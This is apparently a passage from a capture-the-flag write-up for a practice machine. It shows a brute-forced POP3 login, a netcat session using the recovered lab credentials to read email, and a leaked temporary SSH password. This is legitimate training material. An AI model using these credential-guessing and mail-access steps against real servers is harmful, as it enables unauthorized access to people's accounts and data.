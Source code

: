 ```
[-] 10.10.43.65:110       - 10.10.43.65:110 - Failed: 'tegel:orlando12', ''
```
Successful login for '_seina_' using the password '_scoobydoo2_'.

### What was seina's password to the email service?
Password: _scoobydoo2_

### Can you connect to the pop3 service with her credentials? What email information can you gather?
To connect to the pop3 service, I used _nc <ip> 110_, 110 being the port number for the pop3 service. <br>
```
fowsniffCTF nc 10.10.43.65 110
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR 1
+OK 1622 octets
```
From the first email, I got some information about a temporary for SSH. <br>
```
Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
```
